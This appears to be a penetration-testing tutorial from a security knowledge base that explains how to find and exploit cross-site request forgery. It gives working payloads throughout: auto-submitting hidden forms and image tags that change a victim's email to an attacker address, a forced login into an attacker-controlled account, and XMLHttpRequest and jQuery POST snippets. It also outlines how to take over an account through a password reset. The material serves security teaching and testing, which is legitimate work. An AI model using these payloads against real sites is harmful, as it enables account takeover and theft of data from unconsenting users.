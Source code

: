 # Finding and exploiting CSRF vulnerabilities

* Finding and exploiting `Cross-Site Request Forgery (CSRF)` vulnerabilities involves identifying unprotected state-changing actions and leveraging weak request validation to execute unauthorized operations on behalf of authenticated users.

## Finding CSRF vulnerabilities

1. **Identify state-changing actions** within the web application that alter user data or perform important operations, such as modifying personal details, processing purchases, transferring funds, or executing any API requests that update server-side resources. These actions are potential targets for CSRF attacks.
1. **Check for unprotected forms** within the application that submit data without a CSRF token or the `SameSite` cookie attribute, as this could expose them to CSRF attacks. CSRF tokens are server-generated unique values included in form submissions to prevent unauthorized request execution. To detect these weaknesses, use a web proxy tool like Burp Suite or OWASP ZAP to **intercept and analyze HTTP requests** examining request headers, cookies, and parameters.
1. **Test to confirm the CSRF vulnerability** by crafting a malicious request within an HTML page, utilizing a `form` or `image` tag to send an unauthorized request to the application:

    ```javascript
    <form action="https://vulnerable.tbl/email/update" method="POST">
        <input type="hidden" name="email" value="attacker@attacker.tbl">
        <input type="submit" value="Submit">
    </form>
    ```

    Visiting the crafted malicious page while authenticated in the target application will trigger the CSRF attack.

1. Additionally, as part of in-depth research, leverage a vulnerability scanner for automatic CSRF detection, inspect source code if accessible, perform SAST to uncover security risks, and evaluate the effectiveness of CSRF protections by attempting bypass techniques.

## Exploiting CSRF via state-changing requests (usually POST)

* CSRF attacks using the POST method are among the most common forms of CSRF. These attacks occur when a web application fails to implement security mechanisms (i.e, implementing CSRF tokens or using the `SameSite` attribute on cookies) to protect against unauthorized requests.
* An attacker can exploit this by crafting malicious HTML content that automatically triggers a POST request as soon as the user's browser renders the page.
  * Since browsers allow automatic form submission, attackers can initiate POST requests without user interaction, as long as the victim is logged into the targeted website.
* Unlike GET-based CSRF, POST-based CSRF usually allows attackers to target endpoints that require more structured input, which are typically used for state-changing operations.
* As example, consider a scenario where a web application has a vulnerable `/email/update` endpoint that permits users to update their email address via a POST request, requiring only the `email` parameter. An attacker could craft the following HTML page to exploit this weakness:

    ```html
    <html>
        <body>
            <form action="https://vulnerable.tbl/email/update" method="POST">
                <input type="hidden" name="email" value="attacker@attacker.tbl" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
    ```

## Exploiting CSRF via GET requests

* CSRF vulnerabilities may also be exploited via the GET HTTP method if endpoints permit state-changing operations through GET requests without proper protections.
* GET requests are typically intended for retrieving data, but if a web application uses GET for actions that modify state (e.g., changing user information or making updates), it also creates a significant security risk.
* In the following example, when the user clicks on the following link, its email will be changed to `attacker@attacker.tbl`, making the attacker gain control over the account:

    ```http
    https://vulnerable.tbl/email/update?email=attacker@attacker.tbl
    ```

  * Clicking the link while authenticated to `vulnerable.tbl` causes the browser to automatically send a GET request to the exposed endpoint.
* CSRF can also be exploited via the GET method by embedding the malicious link in an HTML element like an `<img>` tag. When the victim accesses a malicious website, the browser automatically processes the HTML and issues the GET request to the vulnerable endpoint without requiring user interaction:

    ```html
    <img src="https://vulnerable.tbl/email/update?email=attacker@attacker.tbl">
    ```

  * The request sent, containing the victim's authenticated session cookies, would trigger the state-changing operation, altering the user's email address to `attacker@attacker.tbl` without the victim's awareness or approval.
* As an example, after updating the victim’s email, the attacker could reset the password through the new email, effectively gaining complete control of the account.

## Exploiting CSRF via session fixation

* `Session fixation` is an attack where an attacker forces a user to use a predetermined session, effectively hijacking the user's session.
* In certain scenarios, a CSRF attack can be used to log a user into an account controlled by the attacker, overwriting any existing session the user may have had. This results in the user unknowingly operating under the attacker's session.
* Unlike traditional CSRF attacks that focus on unauthorized state changes, this variant manipulates user authentication, potentially leading to account hijacking, data exposure, or session-based tracking.
* The attack follows these steps:
  1. The attacker pre-creates an account (e.g., `attacker@attacker.tbl`) on the targeted vulnerable website.
  1. The attacker constructs a malicious webpage designed to force victims to log in to this account:

      ```html
      <form action="https://vulnerable.tbl/login" method="POST">
          <input type="hidden" name="email" value="attacker@attacker.tbl" />
          <input type="hidden" name="password" value="password123" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
      ```

  1. When a user visits this page, their browser automatically submits the form, initiating a login request. If the server responds with:

      ```http
      Set-Cookie: session=attacker_account_session_id; Secure; HttpOnly; Path=/
      ```

      The browser overwrites the victim's existing session cookie with the attacker account's session.

  1. Since the victim remains unaware of this manipulation, they may continue using the trusted application, believing they are still logged into their own account. However, all actions they perform are tied to the attacker's session.
* This technique is particularly dangerous in applications where users store personal information, payment details, or sensitive messages, as any data entered while under the attacker's session will be accessible to them.
* Attackers can also leverage this approach to track user interactions and harvest sensitive data, initiate fraudulent transactions using stored payment details, exploit account linking mechanisms to permanently associate the victim's actions with the attacker's controlled session.
  > :older_man: However, there is a shift in behavior. Historically, the absence of the `SameSite` attribute on cookies was treated as `SameSite=None` by most browsers. Recognizing the security risks of this approach, modern browsers now default to `SameSite=Lax`, which would prevent this attack. Although this change enhances security, depending on browser defaults is not considered a reliable security practice.

## Common CSRF payloads

### HTML4 and HTML5 not requiring user interaction

|HTML tags|
|:--:|
|```<iframe src="URL" />```,<br/> ```<script src="URL" />```,<br/> ```<input type="image" src="URL" alt="" />```,<br/> ```<embed src="URL" />```,<br/> ```<audio src="URL" />```,<br/> ```<video src="URL" />```,<br/> ```<source src="URL" />```,<br/> ```<video poster="URL" />```,<br/> ```<link rel="stylesheet" href="URL" />```,<br/> ```<object data="URL" />```,<br/> ```<body background="URL" />```,<br/> ```<div style="background:url("URL")" />```,<br/> ```<style>body { background:url("URL") } </style> />```|

### HTML and JavaScript not requiring user interaction

```html
<form action="https://vulnerable.tbl/email/update" method="POST" id="CSRF" style="display: none;">
  <input name="email" value="attacker@attacker.tbl"/>
</form>
<script>document.getElementById("CSRF").submit()</script>
```

### JavaScript not requiring user interaction

  ```javascript
  <script>
    const url = "https://vulnerable.tbl/email/update";
    const params = "email=attacker@attacker.tbl";
    const CSRF = new XMLHttpRequest();
    CSRF.open("POST", url, false);
    CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    CSRF.send(params);
  </script>
  ```

  ```javascript
  $.ajax({
    type: "POST",
    url: "https://vulnerable.tbl/email/update",
    data: "email=attacker@attacker.tbl",
  });
  ```
